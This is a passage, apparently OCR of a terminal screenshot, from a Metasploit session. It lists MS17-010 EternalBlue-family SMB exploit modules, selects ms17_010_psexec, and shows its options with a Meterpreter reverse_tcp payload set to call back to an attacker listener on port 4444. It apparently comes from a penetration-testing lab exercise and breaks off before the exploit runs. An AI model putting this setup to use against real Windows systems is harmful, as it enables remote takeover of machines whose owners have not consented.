 ```
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use exploit/windows/smb/ms17_010_psexec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                            Required  Description
   ----                  ---------------                            --------  -----------
   DBGTRACE              false                                      yes       Show extra debug trace info
   LEAKATTEMPTS          99                                         yes       How many times to try to leak transaction
   NAMEDPIPE                                                        no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/word  yes       List of named pipes to check
                         lists/named_pipes.txt
   RHOSTS                                                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<
                                                                              path>'
   RPORT                 445                                        yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                              no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                             no        The service display name
   SERVICE_NAME                                                     no        The service name
   SHARE                 ADMIN$                                     yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal r
                                                                              ead/write folder share
   SMBDomain             .                                          no        The Windows domain to use for authentication
   SMBPass                                                          no        The password for the specified username
   SMBUser                                                          no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.126.147  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
```